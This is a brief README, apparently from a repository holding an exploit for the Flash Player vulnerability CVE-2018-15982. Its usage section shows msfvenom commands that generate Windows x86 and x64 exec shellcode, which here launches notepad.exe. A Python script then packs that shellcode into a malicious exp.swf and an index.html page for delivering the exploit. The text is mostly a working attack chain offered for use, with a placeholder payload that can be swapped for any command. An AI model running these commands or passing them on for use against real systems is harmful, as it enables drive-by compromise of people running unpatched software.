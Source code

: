 # CVE-2018-15982_EXP

## Usage

```
msfvenom -p windows/exec cmd=notepad.exe -f raw > 86.bin
msfvenom -p windows/x64/exec cmd=notepad.exe -f raw > 64.bin
python CVE_2018_15982.py -i 86.bin -I 64.bin
```

output `exp.swf` and `index.html`。

